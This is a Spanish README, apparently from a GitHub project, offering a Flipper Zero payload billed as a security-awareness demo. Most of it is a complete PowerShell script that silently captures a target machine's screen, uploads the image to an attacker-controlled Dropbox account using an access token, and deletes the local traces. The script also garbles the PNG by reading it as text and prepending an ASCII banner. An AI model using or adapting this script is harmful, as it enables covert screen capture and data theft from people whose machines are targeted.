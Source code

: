 # Demostración de Ciberseguridad: Captura de Pantalla y Envío a Dropbox

## Descripción

Este proyecto demuestra cómo se puede capturar una captura de pantalla de un equipo y enviarla a Dropbox utilizando PowerShell y un token de acceso de Dropbox. La demostración está diseñada para concienciar sobre las posibles vulnerabilidades de seguridad y la importancia de la ciberseguridad.

## Autor

**mrflippermen**

## Fecha

**2024-07-15**

## Requisitos

- Un token de acceso de Dropbox con permisos para subir archivos.
- Un dispositivo Flipper Zero para ejecutar el payload.
- Acceso a PowerShell en la máquina objetivo.

## Archivos

- `capture_and_upload.ps1`: Script de PowerShell que captura la pantalla y la sube a Dropbox.
- `README.md`: Este archivo.
- Payload para el Flipper Zero (detallado abajo).

## Script de PowerShell (`capture_and_upload.ps1`)

Este script captura la pantalla del sistema, la guarda como un archivo PNG en una ubicación temporal, y luego sube ese archivo a Dropbox utilizando un token de acceso proporcionado dinámicamente.

```powershell
# El token de acceso de Dropbox será proporcionado dinámicamente
$db = "YOUR_DROPBOX_ACCESS_TOKEN"

# Función para mostrar el encabezado artístico
function Show-Header {
    $header = @"
########################################################################################################################
#    _______     ______  ______ _____  ______ _      _____ _____  _____  ______ _____   _____                           # 
#   / ____\ \   / /  _ \|  ____|  __ \|  ____| |    |_   _|  __ \|  __ \|  ____|  __ \ / ____|                        # 
#  | |     \ \_/ /| |_) | |__  | |__) | |__  | |      | | | |__) | |__) | |__  | |__) | (___                          # 
#  | |      \   / |  _ <|  __| |  _  /|  __| | |      | | |  ___/|  ___/|  __| |  _  / \___ \                         # 
#  | |____   | |  | |_) | |____| | \ \| |    | |____ _| |_| |    | |    | |____| | \ \ ____) |                        # 
#   \_____|  |_|  |____/|______|_|  \_\_|    |______|_____|_|    |_|    |______|_|  \_\_____/                          # 
 #########################################################################################################################           
"@
    return $header
}

# Función para subir archivos a Dropbox
function DropBox-Upload {
    [CmdletBinding()]
    param (
        [Parameter (Mandatory = $True)]
        [string]$SourceFilePath
    )
    $outputFile = Split-Path $SourceFilePath -leaf
    $TargetFilePath = "/$outputFile"
    $arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
    $authorization = "Bearer " + $db
    $headers = @{
        "Authorization" = $authorization
        "Dropbox-API-Arg" = $arg
        "Content-Type" = 'application/octet-stream'
    }

    # Añadir encabezado al contenido del archivo
    $header = Show-Header
    $fileContent = Get-Content -Path $SourceFilePath -Raw
    $combinedContent = $header + "`r`n" + $fileContent
    $tempFilePath = [System.IO.Path]::GetTempFileName()
    Set-Content -Path $tempFilePath -Value $combinedContent

    # Subir el archivo a Dropbox
    Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $tempFilePath -Headers $headers

    # Limpiar el archivo temporal
    Remove-Item -Path $tempFilePath -Force
}

# Función para capturar la pantalla
function Capture-Screen {
    Add-Type -AssemblyName System.Windows.Forms
    Add-Type -AssemblyName System.Drawing
    $screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
    $bitmap = New-Object Drawing.Bitmap $screen.Width, $screen.Height
    $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphics.CopyFromScreen($screen.Left, $screen.Top, 0, 0, $screen.Size)
    $filePath = "$env:temp\sc.png"
    $bitmap.Save($filePath, [System.Drawing.Imaging.ImageFormat]::Png)
    $graphics.Dispose()
    $bitmap.Dispose()
    return $filePath
}

try {
    # Capturar la pantalla y obtener la ruta del archivo
    $screenshotPath = Capture-Screen

    # Subir la captura de pantalla a Dropbox
    if (-not ([string]::IsNullOrEmpty($db))) {
        DropBox-Upload -SourceFilePath $screenshotPath
    } else {
        Write-Error "No se proporcionó el token de acceso de Dropbox."
    }

    # Limpiar el archivo de captura de pantalla
    Remove-Item -Path $screenshotPath -Force
}
catch {
    Write-Error "Ocurrió un error: $_"
}
